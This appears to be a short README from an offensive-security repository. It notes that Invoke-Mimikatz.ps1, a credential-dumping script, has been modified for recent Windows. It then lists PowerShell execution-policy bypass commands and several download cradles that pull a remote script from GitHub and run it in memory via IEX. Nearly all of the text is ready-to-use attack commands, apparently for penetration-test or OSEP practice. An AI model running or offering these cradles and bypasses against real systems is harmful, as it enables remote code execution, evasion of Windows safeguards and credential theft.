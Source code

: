 Invoke-Mimikatz.ps1 has been modded to execute on recent Windows versions based on - https://github.com/mitre/caldera/issues/38#issuecomment-396055260

# Bypass EP
Start PowerShell from cmd.exe:

```powershell.exe -ep bypass```

If already running:

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass```

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted```

```$Env:PSExecutionPolicyPreference = 'Bypass'```


# Run Script cradles

```iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")```

```IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content```



```IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')```

```IEX ((New-Object System.Net.webclient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')).content```



# Download Cradle and general good refs
https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md#download-cradle
